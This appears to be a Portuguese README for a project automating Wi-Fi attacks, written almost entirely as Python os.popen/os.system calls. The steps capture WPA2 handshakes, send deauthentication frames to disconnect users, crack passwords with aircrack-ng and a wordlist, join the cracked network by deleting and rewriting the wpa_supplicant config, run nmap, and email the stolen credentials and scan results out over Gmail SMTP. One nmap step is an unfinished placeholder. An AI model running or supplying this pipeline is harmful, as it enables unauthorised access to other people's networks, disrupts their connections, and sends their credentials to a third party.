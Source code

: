 # Scanning GPD

### Automatização com Python e Shell Script

1. Ler interfaces de rede:
```sh
o = os.popen('iwconfig').read()
```

2. Encerrar os processos que utilizam a interface de rede:
```sh
o = os.popen('sudo airmon-ng check kill').read()
```

3. Iniciar a interface Wi-Fi em modo monitor:
```sh
o = os.popen('sudo airmon-ng start wlan1').read()
```

4. Capturar pacotes das redes do ambiente e armazenando em um arquivo csv:
```sh
o = os.popen('sudo nohup airodump-ng -w ' +outputName + ' --output-format csv wlan1mon &')
```

5. Encerrar processos pendurados do airodump-ng
```sh
os.system('sudo ps aux | grep airo | awk \'{print $2}\' | xargs sudo kill -9')
```

6. Processar saída em csv do airodump-ng com o objetivo de formar a lista de redes a serem crackeadas
```sh
loadNetworks(outputName)
```

7. Para rede que atende o critério (criptografia = WPA2 ou WPA2 WPA)

- Iniciar captura do Handshake
```sh
os.popen("sudo nohup airodump-ng -c " + channel + " --bssid " + bssid + " -w " + outputName + " wlan1mon &")
```

- Enviar sinais de desautenticação para os dispositivos conectados na rede
```sh
os.popen("sudo nohup aireplay-ng --deauth 10 -a " + bssid + " wlan1mon &")
```

- Encerrar processos pendurados do airodump-ng
```sh
os.system('sudo ps aux | grep airo | awk \'{print $2}\' | xargs sudo kill -9')
```

- Iniciar o crack da senha da rede
```sh
os.system("sudo nohup aircrack-ng -b " + bssid + " -w " + pathToWordlist + " " + outputName + "-02.cap > " + outputName + ".txt")
```

- Processar resultado do aircrack (senha encontrada ou não)
- Senha não encontrada:
- - Tentar crack na próxima rede
- Senha encontrada:
- - Desabilitar o modo monitor da interface de rede
```sh
o = os.popen('sudo airmon-ng stop wlan1mon').read()
```
- - Conectar dispositivo na rede
- - Encerrar processos wpa_supplicant anteriores
```sh
os.system('sudo ps aux | grep wpa | awk \'{print $2}\' | xargs sudo kill -9')
```

- - Remover configuração de rede anterior
```sh
os.system('sudo rm -rf /etc/wpa_supplicant/wpa_supplicant.conf')
```

- - Criar novo arquivo de configuração com dados descobertos da rede
```sh
wpaSupplicantFile = open(wpaSupplicantFileName, "a+")
wpaSupplicantFile.write("ctrl_interface=DIR=/var/run/wpa_supplicant GROUP=netdev\n")
wpaSupplicantFile.write("update_config=1\n")
wpaSupplicantFile.write("country=BR\n")
wpaSupplicantFile.write("\n")
wpaSupplicantFile.write("network={\n")
wpaSupplicantFile.write("  ssid=\""+ ssid + "\"\n")
wpaSupplicantFile.write("  psk=\""+ senha + "\"\n")
wpaSupplicantFile.write("}\n")
```

- - Executar wpa_supplicant para estabelecer conexão com a rede Wi-Fi
```sh
os.system('sudo -b  wpa_supplicant -i ' + interface + ' -c /etc/wpa_supplicant/wpa_supplicant.conf -d -D wext > ' + verboseOutputConnectionFileName)
```

- Executar nmap 
```sh
nmapCommand = os.popen("nmap -sV 8.8.8.8 | awk '(NF==4 || NF==3) && $1!=" + '"PORT" {printf(\"%s;;%s;;%s;;%s||\"' + ", $1, $2, $3, $4);}'")
!!!!!!!!!!!!!!!!  pegar comando na versao final !!!!!!!!!!!!!!
```

- Enviar por e-mail o relatório contendo dados da rede e o escaneamento de portas do nmap
```sh
server = smtplib.SMTP('smtp.gmail.com:587')
server.starttls()
server.login(_remetente, _senha)
response = server.sendmail(msg['From'], [msg['To']], msg.as_string())
server.quit()
```







